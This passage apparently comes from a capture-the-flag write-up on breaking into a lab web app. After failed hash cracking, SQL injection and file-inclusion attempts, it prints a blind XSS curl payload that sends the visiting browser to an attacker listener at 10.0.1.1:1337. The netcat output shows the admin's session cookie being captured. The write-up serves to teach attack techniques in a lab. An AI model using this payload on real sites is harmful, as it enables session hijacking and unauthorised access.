 i try to using different wordlist to crack the hash password in table `users` such as dictionary wordlist and  
custom wordlist but still don't work. the hash seems not found in google. sqli technique such as `LOAD_FILE`  
and `INTO OUTFILE` doesn't work.  

there's parameter `page` that seem to using `include/require` function in the website `http://10.0.1.10/?page=home.php`  
so i try lfi method and it isn't work too :(  

the last part to testing is feedback feature on `http://10.0.1.10/?page=contact.php`. 
![recon1](./img/recon1.png "recon1")

however after try input different payload, the web always do success alert and there's no  
indicate command injection, sqli or even xss.

or is that so ? maybe the payload is *running in the background* ?  

setup listener and send typical blind payload :
```bash
...
++++++++++| terminal 1 |++++++++++
...
muwa00@ritalin:~$ curl -X POST "http://10.0.1.10/?page=contact.php" -d "feedback=<script>document.location('http://10.0.1.1:1337/')</script>&url=<script>document.location('http://10.0.1.1:1337/')</script>&description=<script>document.location('http://10.0.1.1:1337/')</script>"
...
++++++++++| terminal 2 |++++++++++
...
muwa00@ritalin:~$ nc -lvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.0.1.10.
Ncat: Connection from 10.0.1.10:41664.
GET / HTTP/1.1
Host: 10.0.1.1:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/77.0.3865.90 HeadlessChrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=s2rapuh7oh47v6umhudqd3pkmm
```
